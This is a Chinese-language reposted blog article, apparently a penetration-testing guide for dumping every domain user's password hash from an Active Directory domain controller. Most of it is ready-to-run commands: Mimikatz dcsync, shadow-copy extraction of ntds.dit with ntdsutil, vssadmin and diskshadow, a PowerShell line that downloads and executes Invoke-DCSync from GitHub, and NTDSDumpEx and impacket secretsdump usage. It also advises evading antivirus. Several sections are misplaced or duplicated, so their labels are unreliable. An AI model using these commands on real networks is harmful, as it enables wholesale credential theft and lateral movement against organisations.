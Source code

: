 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ALgLRtvfud_D4Dvi72k50A)

> **转自** **HACK 之道**

在拥有域管权限时，可以提取所有域用户的密码 Hash，为下一步渗透做准备。  

一、如何 Dump Hash
--------------

Hash 值存储在域控制器中（C:\Windows\NTDS\NTDS.DIT）  
`NTDS.DIT` 文件经常被操作系统使用，无法直接复制到其它位置。可尝试以下方法 Dump Hash。

### 1. Mimikatz

Mimikatz 有一个功能（dcsync），它利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码 Hash 值。

需要权限：域管权限  
Mimikatz 需免杀

```
# 所有用户
Mimikatz "lsadump::dcsync /domain:test.com /all /csv" exit > hash.txt

# 指定用户
Mimikatz "lsadump::dcsync /domain:test.com /user:username" exit > hash.txt
```

### 2. Ntdsutil

Ntdsutil 域控制器默认安装，使管理员能访问和管理 Windows Active Directory 数据库。渗透测试中可以用它来拍摄 ntds.dit 文件的快照

需要权限：域管权限  

```
# 查询当前系统的快照
vssadmin list shadows

# 创建快照
vssadmin create shadow /for=c: /autoretry=10
"Shadow Copy Volume Name" 为 \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
"Shadow Copy ID" 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 复制 ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\ntds.dit

# 删除快照
vssadmin delete shadows /for=c: /quiet
```

### 3. Vssadmin

域控制器默认安装

需要权限：域管权限

```
# 查看存放 `ntds.dit` 的逻辑驱动器（一般为 C 盘）
# 找出系统没有使用的逻辑驱动器号
wmic logicaldisk

# 调用脚本
C:\windows\system32\diskshadow.exe /s C:\shadow.txt
```

### 4. Diskshadow

`DiskShadow` 是由微软官方签名的，Windows Server 2008、2012、2016 都包含了 DiskShadow，所在目录`C:\windows\system32\diskshadow.exe`。包含`交互式命令`和`脚本模式`。

下面利用脚本模式提取 AD 数据库

```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "C:\windows\system32\cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows volume %someAlias%
reset
```

shadow.txt 内容  

```
# 远程加载 Invoke-DCSync.ps1
powershell -exec bypass -command "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-DCSync.ps1')";Invoke-DCSync -PWDumpFormat > hash.txt
```

### 5. Powershell

项目地址：https://github.com/EmpireProject/Empire

```
usage: ntdsdumpex.exe <-d ntds.dit> <-k HEX-SYS-KEY | -s system.hiv |-r> [-o out.txt] [-h] [-m] [-p] [-u]
-d    path of ntds.dit database
-k    use specified SYSKEY
-s    parse SYSKEY from specified system.hiv
-r    read SYSKEY from registry
-o    write output into
-h    dump hash histories(if available)
-p    dump description and path of home directory
-m    dump machine accounts
-u    USE UPPER-CASE-HEX
```

二、如何从 ntds.dit 提取 Hash  

### 1. NTDSDumpEx

```
# 离线模式：先导出注册表
reg save hklm\system system.hiv
NTDSDumpEx.exe -d ntds.dit -s system.hiv -o hash.txt
```

```
# 在线模式：无需导出注册表
NTDSDumpEx.exe -d ntds.dit -r -o hash.txt
```

```
git clone https://github.com/SecureAuthCorp/impacket
```

### 2. Impacket

项目地址：https://github.com/SecureAuthCorp/impacket

因为 Kali 的 python 环境安装得比较全，所以使用 Kali 来解 Hash

```
# 安装所需库 
pip install .
python setup.py
```

```
# 使用 secretsdump.py 解 Hash
/impacket/examples# python secretsdump.py -ntds /home/workspace/hash/ntds.dit -system /home/workspace/hash/sys.hiv LOCAL > /home/workspace/hash/hash.txt
```

```
# 使用 secretsdump.py 解 Hash
/impacket/examples# python secretsdump.py -ntds /home/workspace/hash/ntds.dit -system /home/workspace/hash/sys.hiv LOCAL > /home/workspace/hash/hash.txt
```

三、总结
----

1.  Mimikatz 在域用户机器执行需要域管权限时，可使用 `psexec`、`计划任务`等远程执行
    
2.  使用 `Ntdsutil`、`Vssadmin` 等卷影拷贝工具时，需要先开启 `Volume Shadow Copy Service` 服务
    
3.  有时遇到 `NTDSDumpEx` 提取出错，可以尝试修复 ntds.dit，修复后还无法提取，则使用 `secretsdump.py`。缺点：比较耗时
    

四、参考文章
------

Dump 域内用户 Hash 姿势集合  
域渗透——获得域控服务器的 NTDS.dit 文件  
NTDS.dit 密码快速提取工具

作者：scarletf，来源：https://scarletf.github.io/  

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**